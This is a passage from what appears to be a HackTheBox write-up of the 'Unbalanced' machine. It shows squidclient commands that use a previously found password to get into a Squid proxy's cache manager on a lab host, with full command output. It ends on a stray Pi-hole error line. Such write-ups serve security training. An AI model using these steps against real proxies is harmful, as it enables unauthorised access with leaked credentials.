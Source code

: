 ```text
┌──(zweilos㉿kali)-[~/htb/unbalanced]
└─$ squidclient -h 10.10.10.200 -p 3128 http://intranet-host2.unbalanced.htb mgr:menu
HTTP/1.1 401 Unauthorized
Server: squid/4.6
Mime-Version: 1.0
Date: Sat, 14 Nov 2020 22:21:05 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 3749
X-Squid-Error: ERR_CACHE_MGR_ACCESS_DENIED 0
Vary: Accept-Language
Content-Language: en
WWW-Authenticate: Basic realm="menu"
X-Cache: MISS from unbalanced
X-Cache-Lookup: MISS from unbalanced:3128
Via: 1.1 unbalanced (squid/4.6)
Connection: close

...snipped...
</head><body id=ERR_CACHE_MGR_ACCESS_DENIED>
<div id="titles">
<h1>ERROR</h1>
<h2>Cache Manager Access Denied.</h2>
</div>
<hr>

<div id="content">
<p>The following error was encountered while trying to retrieve the URL: <a href="cache_object://10.10.10.200/menu">cache_object://10.10.10.200/menu</a></p>

<blockquote id="error">
<p><b>Cache Manager Access Denied.</b></p>
</blockquote>

<p>Sorry, you are not currently allowed to request cache_object://10.10.10.200/menu from this cache manager until you have authenticated yourself.</p>
...snipped...
```

I was on the right track, now I just needed to figure out how to authenticate with the password I had found. The man page showed me that the `-w $password` would allow me to authenticate the proxy

```text
┌──(zweilos㉿kali)-[~/htb/unbalanced]
└─$ squidclient -w 'Thah$Sh1' -h 10.10.10.200 -p 3128 http://intranet.unbalanced.htb mgr:menu
HTTP/1.1 200 OK
Server: squid/4.6
Mime-Version: 1.0
Date: Sat, 14 Nov 2020 22:29:59 GMT
Content-Type: text/plain;charset=utf-8
Expires: Sat, 14 Nov 2020 22:29:59 GMT
Last-Modified: Sat, 14 Nov 2020 22:29:59 GMT
X-Cache: MISS from unbalanced
X-Cache-Lookup: MISS from unbalanced:3128
Via: 1.1 unbalanced (squid/4.6)
Connection: close

 index                  Cache Manager Interface                 disabled
 menu                   Cache Manager Menu                      protected
 offline_toggle         Toggle offline_mode setting             disabled
 shutdown               Shut Down the Squid Process             disabled
 reconfigure            Reconfigure Squid                       disabled
 rotate                 Rotate Squid Logs                       disabled
 pconn                  Persistent Connection Utilization Histograms    protected
 mem                    Memory Utilization                      protected
```

[ERROR]: Unable to parse results from <i>queryads.php</i>: <code>Unhandled error message (<code>Invalid domain!</code>)</code>
